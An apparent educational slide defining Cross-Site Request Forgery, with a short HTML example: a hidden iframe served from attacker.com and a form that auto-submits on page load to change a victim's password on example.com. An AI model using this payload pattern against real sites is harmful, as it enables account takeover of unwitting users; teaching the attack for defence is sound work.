

# Cross Site Request Forgery
Cross-site Request Forgery (CSRF), XSRF, or Sea surf refers to an attack against authenticated web applications using Cookies wherein an attacker is able to trick a victim into making a request the victim did not intend to make.

During a Cross-site Request Forgery (CSRF) attack, the victim’s browser is tricked into sending HTTP requests to the web application as intended by the attacker, normally, such a request would involve submitting forms present on the web application to alter some data.

The following is a simple example of how CSRF can be abused using POST requests through the use of an <iframe> tag. This code would be loaded in an iframe which is made invisible to the victim.

<iframe src="http://attacker.com/csrfAttack" style="width:0;height:0;border:0;border:none;"></iframe>

<body onload="document.getElementById('csrf').submit()">
<form id="csrf" action="http://example.com/changePassword.php" method="POST">
<input name="newPassword" value="attackerPassword" />
</form>
</body>